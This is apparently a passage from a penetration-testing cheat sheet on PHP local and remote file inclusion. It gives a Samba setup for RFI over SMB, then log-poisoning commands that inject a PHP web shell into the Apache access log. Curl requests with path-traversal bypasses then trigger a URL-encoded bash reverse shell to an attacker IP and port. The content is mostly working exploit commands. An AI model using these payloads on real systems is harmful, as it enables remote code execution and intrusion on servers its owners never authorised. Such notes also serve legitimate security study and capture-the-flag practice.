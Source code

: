 

# Web




## LFI/RFI



### PHP RFI with SMB

* [www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)

`/etc/samba/smb.conf`:

```
log level = 3
[share]
        comment = TEMP
        path = /tmp/smb
        writable = no
        guest ok = yes
        guest only = yes
        read only = yes
        browsable = yes
        directory mode = 0555
        force user = nobody
```

```
root@kali:$ chmod 0555 /tmp/smb
root@kali:$ chown -R nobody:nogroup /tmp/smb
root@kali:$ service smbd restart
root@kali:$ tail -f /var/log/samba/log.<HOSTNAME>
```



### Log Poisoning


#### PHP

* [medium.com/bugbountywriteup/bugbounty-journey-from-lfi-to-rce-how-a69afe5a0899](https://medium.com/bugbountywriteup/bugbounty-journey-from-lfi-to-rce-how-a69afe5a0899)
* [outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)

Access log (needs single `'` instead of double `"`):

```
root@kali:$ nc 127.0.0.1 80
GET /<?php system($_GET['cmd']); ?>

root@kali:$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//var//log//apache2//access.log&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
Or
root@kali:$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//proc//self//fd//1&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
```
